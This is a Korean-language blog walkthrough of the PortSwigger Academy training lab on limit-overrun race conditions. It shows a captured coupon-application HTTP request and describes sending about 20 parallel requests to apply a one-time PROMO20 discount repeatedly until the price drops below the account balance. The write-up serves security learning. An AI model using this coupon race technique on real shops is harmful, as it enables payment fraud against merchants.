 ```yaml
---
layout: post
title: "Burp Academy-레이스컨디션 관련 취약점: Limit overrun race conditions"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, 레이스컨디션, Race Condition]
toc: true
last_modified_at: 2023-09-01 10:33:00 +0900
---
```


# 개요
- 새로 추가된 레이스 컨디션 관련 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun
- 취약점 설명페이지: https://portswigger.net/web-security/race-conditions#limit-overrun-race-conditions
- 난이도: APPRENTICE (쉬움)

# 랩 설명
- 이 랩에는 상품을 적정 가격이 아닌 다른 가격으로 구매할 수 있는 레이스 컨디션 취약점 있다. 
- Lightweight L33t Leather Jacket 를 구매하는 랩이 풀린다. 
- wiener:peter 로 로그인할 수 있다. 
- 이 랩을 푸는데는 Burp Suite 버전 2023.9이상이 필요하다. 

```
This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

To solve the lab, successfully purchase a Lightweight L33t Leather Jacket.

You can log in to your account with the following credentials: wiener:peter.

Note
Solving this lab requires Burp Suite 2023.9 or higher.
```

# 도전
## 관찰
- 사야하는 재킷의 가격이 1337달러로 비싸다. 

![상품가격확인](/images/burp-academy-race-condition-1-1.png)

그리고 잔고는 50달러 밖에 없다. 

![잔고확인](/images/burp-academy-race-condition-1-2.png)

- 20%세일된 가격으로 살 수 있는 `PROMO20`라는 쿠폰 코드를 알려주고 있다. 아마 이 코드는 일회용일텐데, 동시에 여러개의 요청을 보내면 추가로 할인이 될 것으로 예상된다. 
- 1337달러의 상품을 할인을 계속해서 50달러 이하로 만들어보자. 


## 레이스 컨디션 가능한 곳 찾기 
- 쿠폰 적용하는 요청이 레이스 컨디션이 된다. 

![](/images/burp-academy-race-condition-1-3.png)

![](/images/burp-academy-race-condition-1-4.png)

```http
POST /cart/coupon HTTP/2
Host: 0aef00fd0340b8968315101100090090.web-security-academy.net
Cookie: session=HFLp5UN41E0NpruM7ySorUcjTDcGwXS1
Content-Length: 52
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0aef00fd0340b8968315101100090090.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aef00fd0340b8968315101100090090.web-security-academy.net/cart
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

csrf=CVwhMdoY1iM8W1qsFbR2Mu0ACJg3fp9w&coupon=PROMO20
```

쿠폰이 적용되면 다음과 같은 응답이 돌아온다. 

```http
HTTP/2 302 Found
Location: /cart
X-Frame-Options: SAMEORIGIN
Content-Length: 14

Coupon applied
```



만약 서버측에서 쿠폰이 이미 사용처리된 후라면 다음과 같은 응답이 돌아온다. 

```http
HTTP/2 302 Found
Location: /cart?couponError=COUPON_ALREADY_APPLIED&coupon=PROMO20
X-Frame-Options: SAMEORIGIN
Content-Length: 22

Coupon already applied
```

테스트해보니 쿠폰이 두번이상은 적용이 안된다. 뭔가 다른 방법이 있는건가? 생각해보자.. 

# 풀이 
모르겠다. 답을 본다. 답을 보니 결국 위에서 한 과정이 옳았다. 다만 레이스컨디션이라서 그 때그때 서버의 처리속도에 따라 달라진다. 50달러 이하로 내려가지 않으면 쿠폰을 삭제하고 다시 시도하면 된다. 14번만에 성공했다. 
다음과 같이 약20여개의 요청을 그룹화해서 병렬로 보냈다. 

![병렬로 보내는 모습](/images/burp-academy-race-condition-1-6.png)

중복세일에 성공해서 30달러까지 깍은 모습이다. 

![중복세일에 성공해서 30달러까지 깍은 모습](/images/burp-academy-race-condition-1-5.png)

구매를 시도하면 문제풀이에 성공했다는 메세지가 표시된다.

![풀이 성공](/images/burp-academy-race-condition-1-success.png)